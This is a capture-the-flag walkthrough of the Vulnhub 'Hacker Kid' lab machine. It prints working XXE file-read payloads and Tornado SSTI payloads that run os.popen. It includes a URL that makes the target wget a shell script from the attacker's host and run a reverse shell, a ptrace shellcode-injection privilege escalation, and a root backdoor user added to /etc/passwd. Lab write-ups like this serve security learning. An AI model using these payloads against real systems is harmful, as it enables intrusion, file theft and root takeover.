


# Hacker Kid (Vulnhub)

## Enumeration

**NMAP SCAN**
```
# Nmap 7.93 scan initiated Tue Jan 17 03:59:59 2023 as: nmap -A -oA nmap/hacker_kid -vv 192.168.29.248
Nmap scan report for 192.168.29.248
Host is up, received syn-ack (0.00012s latency).
Scanned at 2023-01-17 03:59:59 IST for 14s
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE REASON  VERSION
53/tcp   open  domain  syn-ack ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Notorious Kid : A Hacker
|_http-server-header: Apache/2.4.41 (Ubuntu)
9999/tcp open  http    syn-ack Tornado httpd 6.1
| http-title: Please Log In
|_Requested resource was /login?next=%2F
| http-methods:
|_  Supported Methods: GET POST
|_http-server-header: TornadoServer/6.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 17 04:00:13 2023 -- 1 IP address (1 host up) scanned in 14.45 seconds
```

- Found **Apache httpd 2.4.41** is running on port **80**.

### Web Enumeration

- Checking running website on the browser on port **80**:


 
- Checking running website on the browser on port **9999**:


- Trying with common usernames and password but nothing works.

- also on checking the source code of the website's homepage we found this (of port **80**) 👇


- Trying the parameter on the website shows this message:


- Let's use **wfuzz** for help ourselves out!

**wfuzz**:

`wfuzz -c -z range,1-500 "http://192.168.29.248/?page_no=FUZZ" > wfuzz/wfuzz.txt`

- output have a huge list of responses and we need to search here for the response which does not contain 279 W:

`cat wfuzz/wfuzz.txt | grep -v 279`



- We got page number **21**.
- Checking page_no=21 in our get parameter shows this message on the website:


- which tells us a domain name: **hackers.blackhat.local**
- let's add it to our host file and then recheck the web!

## DNS Zone Transferring
👉**[For Reference](https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns#zone-transfer)**👈

- Let's check the other records present on the Target DNS:

**used command**
```
dig axfr @192.168.29.248 blackhat.local
```

**output**:


- We found that there are more records availble in the DNS.
- so we've also added **hackerkid.blackhat.local** to our hosts file.
- let's check on it:

### Intercepting with Burpsuite 


- Entering details shows this message!


- Let's intercept it with Burpsuite:


- It's using XML, so we could try with some XXE stuff here!

### Trying XML External Entity
👉**[For Reference](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file)**👈

- Let's try to read the **/etc/passwd** file first:


**Response**:


- So we are getting response from our target, let's try to fetch the **SSH key** from the target computer:

### Initial foothold:

- From **passwd** file we get know to know that there is a user called **saket** on the target machine.


### Local User Enumeration

**using default ssh keys location in our xxe request**

```
/home/saket/.ssh/id_rsa
```

- We've found nothing in response, let's try to fetch some other files, like **.bash_history**

```
/home/saket/.bash_history
```

- It's showing nothing also this time, so I've modified the way of requesting through xxe, instead of it using the base64 encoded payload there:

```
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/home/saket/.bashrc"> ]>
```

- And it returns the output this time!


- By decoding it and looking at the file provides us some crucial details:


- Getting back to the login we found on port **9999**:
- Using these credentials doesn't work with **admin** as username, so we tried it with **saket** and we get logged in!


- In the page we found nothing much, from the **bashrc** we know that this is a python application, so let's try some parameters in the URL;


### Server Side Template Injection

- Checking with {{7*\2}} in the URL parameter and it appears that the site is vulnerable to SSTI:


- From a random command the page generated the error and it revealed that **tornady.py** is running here.
👉**[Tornado SSTI](https://ajinabraham.com/blog/server-side-template-injection-in-tornado)**👈

- Let's try to fetch the current username first:

`{{ os.popen("whoami").read() }}`


## Initial Foothold

- Now we will create a reverse shell and download it in the target machine through SSTI.
👉**[for creating reverse shell](https://www.revshells.com/)**👈

- **URL**:

```
http://192.168.29.248:9999/?name={%%20import%20os%20%}{{%20os.popen(%22wget%20http://192.168.29.221/shell.sh%22).read()%20}}
```


- Now we'll start a netcat listener on our local computer and run the reverse shell on the target:

- **running reverse shell:**

`http://192.168.29.248:9999/?name={%%20import%20os%20%}{{%20os.popen(%22bash%20reverse.sh%22).read()%20}}`


👉**[Upgrading out shell](https://gabb4r.gitbook.io/oscp-notes/shell/upgrading-shell)**👈

### Target Enumeration
- First we've done the manual enumeration by checking:
	- All of the users home directory useful files and folders.
	- looking for any confidentials information in the webservers configuration files.
	- and checking the associated privileges that the user have, like sudo or running application as a superuser.
- **[Linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**
	- By enumerating from linpeas we found that a **linux capability** "***cap_sys_ptrace+ep***" can be used to take an advantage on privilege escalation:

### Privilege Escalation

👉**[resource](https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc)**👈

- I found a blog that help me to understand to conduct privilege escalation from this linux capability.
	- On the target we need to inject a shellcode through python2.7, cause this exactly we saw in our linpeas output.
	- From the blog we found a c program o inject shellcode on the target machine, and we only have to rewrite the whole script into python; 👉**[link to the script in python](https://gitlab.com/oreximus/zeroseven/-/blob/master/PentestResources/LinuxCapPrivesc/inject.py)**👈
	- start a python server on your local computer and then transfer the script to the target's machine.
	- we also need a process that is up and running with **root** privileges, for that check the processes by:

```
ps -eaf | grep apache //or mention any service which is in your knowledge!
```

-  run the script with python2.7, also do mention the pid of the running service with root.

```
/usr/bin/python2.7 inject.py 2722
```


- Let's check the listening TCP ports

```
netstat -tnlp
```



- We're getting a listening port 5600, let's connect to it!

```
nc 127.0.0.1 5600
```


- So we've gained access to the root shell and as you can see in the above screenshots we've also changed the permission of the /etc/passwd file so that we could some modify it and create a user with root privileges.
	- creating a sample password hash for the new user:
```
openssl passwd -1
```


- add the **newuser** in the **/etc/passwd** file at the end of it! 👇

```
newuser:$1$js5DBsjB$A9KzM9OSRyipE2HieSmq41:0:0:root:/root:/bin/bash
```

- Now you can login as root with this new user:

```
su newuser // and then enter the password : 1
```

